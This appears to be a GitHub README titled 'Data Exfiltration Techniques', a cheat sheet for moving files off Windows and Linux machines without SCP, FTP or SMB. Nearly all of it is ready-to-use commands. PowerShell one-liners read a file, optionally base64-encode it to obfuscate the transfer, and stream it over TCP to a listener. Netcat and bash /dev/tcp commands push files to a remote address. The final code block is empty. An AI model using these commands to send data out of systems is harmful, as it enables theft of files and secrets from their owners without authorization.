 # Data Exfiltration Techniques
#### This is a list of some data exfiltration techniques if you don't have access to SCP, FTP, SMB, etc.

***

### Windows To Linux

##### If you want to send the raw bytes:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $FileContents = [System.IO.File]::ReadAllBytes($FilePath); $Length = [System.BitConverter]::GetBytes($FileContents.Length); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $NetworkStream.Write($FileContents, 0, $FileContents.Length); $NetworkStream.Close(); $TCPClient.Close()
```

##### If you want to obfuscate the data being transfered by converting it to a base64 string:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp %ListeningPort% | base64 -d > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Windows host run the following in PowerShell:

```
$FilePath = "$pwd\file.ext"; $LHOST = "%ListenerAddress%"; $LPORT = %ListeningPort%; $Base64String = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("$FilePath")); $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $StreamWriter.Write($Base64String); $StreamWriter.Close(); $NetworkStream.Close(); $TCPClient.Close()
```

###### If not running from the same directory as the file location, then change ```$pwd\file.txt``` to the proper filepath.

***

### Linux To Linux

#### Send file from remote client to host machine:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -lp port > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc -q 0 %ListenerAddress% %ListeningPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```
cat file.ext >& /dev/tcp/%ListenerAddress%/%ListenerPort%
```

#### Retrieve file from host to client:

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Setup NetCat listener on Linux host:

```
nc -q 0 -lp %ListenerPort% < file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; On the Linux client connect back with NetCat:

```
nc %ListenerAddress% %ListeningPort% > file.ext
```

###### &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; If NetCat is unavailable, on the Linux client connect back with bash:

```

```
